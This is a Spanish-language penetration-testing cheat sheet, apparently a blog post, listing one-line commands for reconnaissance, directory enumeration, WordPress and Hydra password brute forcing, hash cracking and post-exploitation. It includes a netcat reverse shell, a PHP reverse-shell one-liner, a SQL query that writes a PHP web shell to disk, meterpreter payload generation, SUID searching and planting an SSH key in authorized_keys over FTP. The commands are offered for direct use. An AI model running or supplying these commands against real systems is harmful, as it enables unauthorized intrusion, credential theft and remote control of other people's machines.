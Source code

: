 ```yaml
---

layout: post
---
```


Buscar otros TLD de un dominio con DNSRecon

dnsrecon -t tld -d dominio.com

Listar los PTR de un rango IP con DNSRecon

dnsrecon -r 195.235.XXX.1-195.235.XXX.254 -t rvl

Buscar subdominios de un dominio

fierce --dns domain.com

Escaneo ARP de una red local.

arp-scan --localnet --ignoredups

Descubrir hosts activos en la red local.

netdiscover

Capturar documentos de un dominio con metagoofil

metagoofil -d www.eninsoft.com -t pdf -o /tmp/ -f /tmp/process.html

Capturar información de un host con Dmitry

dmitry -w -e -n -s www.eninsoft.com -o /tmp/process.html

Buscar infromación en motores de búsqueda.

theharvester -l 100 -b google -d www.eninsoft.com

Buscar vulnerabilidades con Wpscan

wpscan --url http://192.168.1.10/wp/ -e at -e ap -e u

Enumerar usuarios de WordPress con Wpscan

wpscan --url http://192.168.1.69 --enumerate u

Fuerza bruta de usuarios de WordPress con Wpscan

wpscan --url http://192.168.1.69 -U users.txt -P passwords.txt

Scanear todos los puertos modo agresivo con Nmap

nmap -p- -A 192.168.1.103

Enumeración de directorios con diccionario grande con Dirb

dirb http://192.168.1.103:8080 /usr/share/wordlists/dirb/big.txt
dirb http://192.168.1.221:8000 -X .php, .txt, .py /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con diccionario grande con Dirsearch

./dirsearch -u http://192.168.1.103:8080 -e php -w /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con diccionario grande con Gobuster

gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/big.txt

Enumeración de directorios con Dirbuster

dirbuster

Escaneo con Skipfish – Google tool -.

skipfish -b ie -Z -Q -o skipfishdir -U -S /usr/share/skipfish/dictionaries/medium.wl -W- https://www.eninsoft.com

skipfish -Y -L -o skipfishdir1 -X "toggle" https://www.eninsoft.com

Escaneo con Arachni.

** La versión que lleva parrot os por defecto no es la ultima, se recomienda descargar la ultima des de la web official.

~/Applications/arachni/bin/
./arachni_web

http://localhost:9292
Email: admin@admin.admin
Password: administrator

Crear un servidor web simple con Python 1/2/3.

python -SimpleHTTPServer

python2 -m SimpleHTTPServer 8080

python3 -m http.server 

Crear un servidor web simple con PHP.

php -S 0.0.0.0:8080

Decodificar un string codificado con Base64.

echo "am9objpZWlckczhZNDlJQiNaWko=" | base64 -d

Listar los ejecutables disponibles con permisos de sudo

sudo -l

Crear un ejecutable con una shell meterpreter reverse_tcp con MSF VENOM.

msfpc windows 192.168.1.69

Crear un puerto de escucha con netcat.

nc -lvp 4444

Conectarse a otra máquina con netcat.

nc 192.168.43.134 1337
nc -e /bin/bash 192.168.1.10 4444

Ejecutar un PHP reverse shell.

sudo /usr/bin/php -r '$sock=fsockopen("192.168.29.157",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Fuerza bruta de contraseñas con Hydra

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.10 mysql  # Mysql
hydra -L user.txt -P dict.txt 192.168.1.101 ssh -s 65345 -e nsr  # SSH

SQL para subir una PHP shell en un servidor

select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/raj.php';

Fuerza bruta de una Hash con JohnTheRipper.

john hash.txt
john --format=mssql12 --wordlist=./Tools/Wordlists/rockyou.txt ./hash.txt

Fuerza bruta de una HASH con Hashcat

hashcat ./hash.txt ./Tools/Wordlists/rockyou.txt
hashcat -m 1800 ./hash.txt ./Tools/Wordlists/rockyou.txt --force

Crear un diccionario con las palabras del contenido de una web con Cewl.

cewl http://192.168.1.10/ -w diccionario.txt

Crear una clave SSH privada-publica y subirla a un servidor FTP.

ssh-keygen
cd .ssh
ls
cat id_rsa.pub > authorized_keys
ls

#Conectamos por FTP en el servidor remoto para subir el archivo
ftp 192.168.1.101
mkdir .ssh
cd .ssh
put authorized_keys

Buscar archivos con el bit SUID

find / -perm -u=s -type f 2>/dev/null

Buscar exploit usando exploit-db

apt -y install exploitdb
searchsploit xxx    # package name
searchsploit -m 1245 

Sniffar el trafico de una red filtrando paquetes arp.

tcpdump -A -n host 192.168.1.10 and arp

Ver información extra de un archivo.

file archivo




